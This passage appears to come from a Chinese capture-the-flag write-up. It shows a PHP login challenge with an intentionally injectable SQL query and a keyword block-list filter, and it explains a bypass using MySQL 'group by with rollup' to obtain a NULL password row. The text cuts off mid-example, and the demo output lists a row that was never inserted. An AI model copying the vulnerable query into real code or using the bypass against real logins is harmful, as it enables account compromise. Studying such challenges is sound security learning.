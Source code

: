   ```php
      AttackFilter($key,$value,$filter);
  }

  $con = mysql_connect("XXXXXX","XXXXXX","XXXXXX");
  if (!$con){
      die('Could not connect: ' . mysql_error());
  }
  $db="XXXXXX";
  mysql_select_db($db, $con);

  //设置活动的 MySQL 数据库

  $sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
  $query = mysql_query($sql); 

  //执行一条 MySQL 查询

  if (mysql_num_rows($query) == 1) { 

  //返回结果集中行的数目

      $key = mysql_fetch_array($query);

  //返回根据从结果集取得的行生成的数组，如果没有更多行则返回 false

      if($key['pwd'] == $_POST['pwd']) {
          print "CTF{XXXXXX}";
      }else{
          print "亦可赛艇！";
      }
  }else{
      print "一颗赛艇！";
  }
  mysql_close($con);
  ?>
  ```
可以看到主要是:

`$filter = "and|select|from|where|union|join|sleep|benchmark|,|(|)";`

这句话过滤了很多关键词，加上function AttackFilter这个函数起到了过滤的作用，这里是巧妙地用了select过程中​​用`group by with rollup`这个统计的方法进行插入查询。

```sql
mysql> create table test (
    -> user varchar(100) not null,
    -> pwd varchar(100) not null);  
mysql>insert into test values("admin","mypass");
mysql>select * from test group by pwd with rollup
mysql> select * from test group by pwd with rollup
mysql> select * from test group by pwd with rollup;
+-------+------------+
| user  | pwd        |
+-------+------------+
| guest | alsomypass |
| admin | mypass     |
| admin | NULL       |
+-------+------------+
3 rows in set

mysql> select * from test group by pwd with rollup limit 1
;
+-------+------------+
| user  | pwd        |
```